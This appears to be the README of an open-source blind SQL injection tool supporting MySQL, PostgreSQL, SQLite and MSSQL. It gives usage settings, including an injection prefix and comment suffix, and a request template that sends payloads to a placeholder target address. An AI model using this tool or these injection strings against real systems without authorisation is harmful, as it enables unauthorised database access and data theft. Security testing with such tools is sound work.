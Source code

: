 # MySQLi
**Time** and **Boolean** based SQLi for **MySQL**,  **PostgreSQL**, **SQLite** and **MSSQL**  

![screenshot](https://github.com/physics-sp/MySQLi/blob/main/demo.png?raw=true)

## Features
- It allows you to have more control over the attack. You can handle logouts, CSRF tokens, and other tricky scenarios in which [sqlmap](https://github.com/sqlmapproject/sqlmap) doesn't work.
- It uses Binary search to increase speed
- Supports multiple types of databases _(MSSQL only supports Boolean based)_

## Usage
Set the database and SQLi type, the strings that go before and after the query and the sleep time if Time based if being used
```python
database = Database.PostgreSQL
sqlitype = SQLiType.Boolean
PRE = "' or"
POST = '-- -'
sleep_time = 2
```
Re-define the `send_req` function.
```python
def send_req(payload):
    # CHANGE THIS
    global num_queries
    num_queries += 1
    # print(payload)
    params = {'pwn': payload}
    cookies = {}
    proxies = {}
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    url = 'http://10.10.10.10/index.php'
    r = requests.get(url,
                     params=params,
                     verify=False,
                     proxies=proxies,
                     allow_redirects=False,
                     cookies=cookies)
    return r

```

## TODO
- Add Time based to MSSQL
- Add more DBs

